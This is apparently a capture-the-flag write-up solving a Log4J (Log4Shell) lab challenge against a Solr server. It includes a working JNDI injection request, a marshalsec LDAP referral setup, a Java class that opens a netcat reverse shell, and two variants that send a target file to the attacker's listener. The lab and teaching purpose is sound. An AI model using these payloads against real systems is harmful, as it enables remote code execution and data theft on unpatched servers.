 # Bonus Red Log4Jack
**Location: North Pole**
**Troll: Icky McGoop**

This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.
Multiple terminal session are created automatically, one running a web server serving from `/home/troll/web` on port 8080, another one running a netcat listener on port 4444.

The objective is to retrieve the file `/home/solr/kringle.txt` from a web service running solr on http://solrpower.kringlecastle.com:8983/.

First a Java class `Joergen` creating a reverse shell is created:
```java
public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.
This is placed in the web tree, so that the web server is able to hand out this class.
Next the [marshalsec](https://github.com/mbechler/marshalsec) installation residing in `/home/troll/marshalsec`  is started:
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
```
*WEBSERVERIP* has to be replaced with the terminal's IP address.
This application acts as an LDAP server and uses the Java class on the web server as remote code base.

Finally the Log4J vulnerability is triggered:
```
curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
```
*MARSHALSECIP* has to be replaced with the terminal's IP address.

This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file `kringle.txt` to be retrieved.
```
cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
```
So **patching** is the solution.

### Alternative 1: just reading the targeted file
```java
import java.io.*;
import java.nio.file.*;
public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

### Alternative 2: pure Java solution, hence platform independant
```java
import java.io.*;
import java.nio.file.*;
import java.net.Socket;
public class Joergen {
  static {
    try {
      Socket socket=new Socket("CLIENTIP",4444);
      PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

**Achievement: Log4J Red Bonus**
